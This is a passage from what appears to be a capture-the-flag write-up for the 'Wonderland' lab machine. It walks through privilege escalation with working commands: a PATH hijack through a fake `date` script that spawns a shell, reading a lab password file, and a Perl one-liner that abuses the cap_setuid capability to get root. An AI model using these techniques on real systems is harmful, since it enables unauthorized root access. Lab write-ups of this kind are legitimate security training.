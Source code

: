 So, let's do the following:

1. Create a file named `date` with this contents:

```bash
#!/bin/bash
/bin/bash  
```

2. Give the file execution permissions:

```
chmod +x date
```

3. Hijack the path:

```
export PATH=.:$PATH
```

4. Use the binary:

```
./teaParty
```

![[Pasted image 20250410174605.png]]

We can see we got a shell as `hatter`, let's check our home:

```
hatter@wonderland:/home/hatter$ ls
password.txt
```

We got a password:

```
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

We can migrate to ssh with these credentials. Now, let's check our sudo privileges:

![[Pasted image 20250410174723.png]]

We got no sudo permissions, weird, maybe we can check more stuff with linpeas:

![[Pasted image 20250410175343.png]]


We got capabilities set, **Capabilities** in Linux are a way to grant _specific privileges_ to a process or binary **without giving it full root access**. They break down the monolithic "root vs. non-root" model into **granular permissions**, allowing fine-grained control over what a program can do.

Knowing this, we can exploit it in the following way to get root:

```
/usr/bin/perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/bash";'
```
